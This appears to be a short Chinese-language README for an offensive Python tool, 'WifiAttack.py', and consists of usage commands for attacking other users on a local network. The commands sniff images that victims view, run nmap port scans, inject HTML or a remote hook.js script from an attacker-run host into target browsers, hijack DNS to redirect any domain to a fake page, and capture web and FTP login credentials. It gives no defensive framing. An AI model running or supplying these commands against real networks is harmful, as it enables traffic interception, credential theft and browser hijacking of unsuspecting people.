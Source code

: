 #A WiFi Attack Tool

监听局域网内的其他用户查看的图片信息：

	python WifiAttack.py -u -p -d -ip 192.168.0.10 
如果无法识别MAC地址，则加参数--vmac

	python WifiAttack.py -u -p -d -ip 192.168.0.10 -vmac xx:xx:xx:xx:xx
监听整个C段图片信息：
	
	python WifiAttack.py -u -p -d -ip 192.168.0.0/24

利用nmap扫描端口：//调用nmap模块进行扫描

	python WifiAttack.py -n -ip 192.168.1.110

代码&js注入到目标主机

	python WifiAttack.py -c "html代码" -ip 192.168.1.110
	
	python WifiAttack.py -b http://192.168.1.10:3000/hook.js -ip 192.168.1.110

DNS劫持//将目标主机的DNS重定向到某一虚假页面

	python WifiAttack.py -a -r 192.168.200.109 -ip 192.168.200.4//重定向任意网站域名到192.168.200.109

抓取web的登录信息，GET/POST;抓取ftp的密码信息

	python WifiAttack.py -p -ip 192.168.200.4 